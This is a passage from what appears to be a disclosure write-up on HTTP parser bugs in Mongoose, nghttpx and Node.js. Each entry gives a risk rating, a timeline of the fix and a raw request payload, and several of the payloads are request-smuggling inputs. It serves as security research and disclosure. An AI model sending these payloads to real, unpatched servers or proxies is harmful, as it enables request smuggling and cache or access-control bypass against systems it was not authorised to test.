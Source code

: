   - Use case: Request smuggling
  - Requirements: A transducer that forwards the `Transfer-Encoding` value `,chunked` as-is, and interprets it as equivalent to `chunked`.
  - Risk: High. See Azure CDN bug 1 and nghttpx bug 1.
  - Payload: `GET / HTTP/1.1\r\nHost: whatever\r\nTransfer-Encoding: ,chunked\r\nContent-Length: 5\r\n\r\n0\r\n\r\n`
  - Timeline:
    - November 6, 2023: Reported via [GH issue](https://github.com/cesanta/mongoose/issues/2460).
    - December 1, 2023: Fixed in [commit](https://github.com/cesanta/mongoose/pull/2509/commits/4c445453d354fe4ab21e59beae327d9e38832d93).
5. Header values containing `"`, `(`, `)`, `,`, `/`, `;`, `<`, `=`, `>`, `?`, `@`, `[`, `\`, `]`, `{`, `}`, and the range `\xc0-\xef` are incorrectly permitted.
  - Use case: ???
  - Requirements: N/A
  - Risk: None
  - Payload: `GET / HTTP/1.1\r\n"(),/;<=>?@[/]{}\xc0\xef: yep\r\n\r\n`
  - Timeline:
    - October 13, 2023: Reported via [GH issue](https://github.com/cesanta/mongoose/issues/2425).
    - December 5, 2023: Fixed in [commit](https://github.com/cesanta/mongoose/commit/bd53e4687377af2c7d56ce69e3af289e59654cb0).
6. Message bodies are incorrectly terminated on `\r\n\r\n` instead of `0\r\n\r\n`.
  - Use case: Request smuggling
  - Requirements: A transducer that accepts and forwards extra `\r\n`s between chunks.
  - Risk: Low. I'm not aware of any such transducer.
  - Payload: `POST / HTTP/1.1\r\nHost: a\r\nTransfer-Encoding: chunked\r\n\r\n1\r\nZ\r\n\r\n\r\nGET / HTTP/1.1\r\nHost: a\r\n\r\n`
  - Timeline:
    - January 3, 2024: Reported via [GH issue](https://github.com/cesanta/mongoose/issues/2552).
    - Januar 3, 2024: Fixed in [PR](https://github.com/cesanta/mongoose/pull/2580).

### nghttpx
1. `Transfer-Encoding: ,chunked` headers are forwarded intact.
  - Use case: Request smuggling
  - Requirements: A server that both ignores unknown `Transfer-Encoding`s and treats `,chunked` as distinct from `chunked`.
  - Risk: High. See Gunicorn bug 6, Mongoose bug 4, OpenBSD relayd bug 2, and Phusion Passenger bug 1.
  - Payload: `POST / HTTP/1.1\r\nHost: a\r\nTransfer-Encoding: ,chunked\r\n\r\n0\r\n\r\n`
  - Timeline:
    - October 14, 2023: Reported via email.
    - October 17, 2023: Fixed in [PR](https://github.com/nghttp2/nghttp2/pull/1973).

### Node.js
1. The header block is incorrectly terminated on `\r\n\rX`, where `X` can be any byte.
  - Use case: ???
  - Requirements: A transducer that forwards header names beginning with `\r`, or allows `\r` as line-folding start-of-line whitespace.
  - Risk: Low. I'm not aware of such a transducer.
  - Payload: `GET / HTTP/1.1\r\nHost: a\r\n\rZGET /evil: HTTP/1.1\r\nHost: a\r\n\r\n`
  - Timeline:
    - July 7, 2023: Reported via [HackerOne report](https://hackerone.com/reports/2054283).
    - July 31, 2023: Fixed in [llhttp commit](https://github.com/nodejs/llhttp/commit/6d04465e8c98c57a17428bf7aa54cc9e0add30ff).
    - September 16, 2023: Fixed in [Node commit](https://github.com/nodejs/node/commit/e9ff81016dfcf183f4fcc2640497cb8b3365fdd7).
2. `Transfer-Encoding: chunked` chunks are incorrectly terminated on `\rX`, where `X` can be any byte.
  - Use case: Request smuggling.
  - Requirements: A transducer that forwards `\r` within the optional whitespace in a chunk-ext.
  - Risk: High. See Akamai bug 3, Apache Traffic Server bug 4, and Google Cloud bug 1.
  - Payload: `GET / HTTP/1.1\r\nHost: a\r\nTransfer-Encoding: chunked\r\n\r\n5\r\r;ABCD\r\n34\r\nE\r\n0\r\n\r\nGET / HTTP/1.1\r\nHost: a\r\nContent-Length: 5\r\n\r\n0\r\n\r\n`
  - Timeline:

[1]: 'GET / HTTP/1.1\r\nHost: whatever\r\n\r\n'
[2]: 'GET / HTTP/1.1\r\nhost: whatever\r\n\r\n'
[3]: 'GET / HTTP/1.1\r\nHost: echo\r\nConnection: close\r\n\r\n'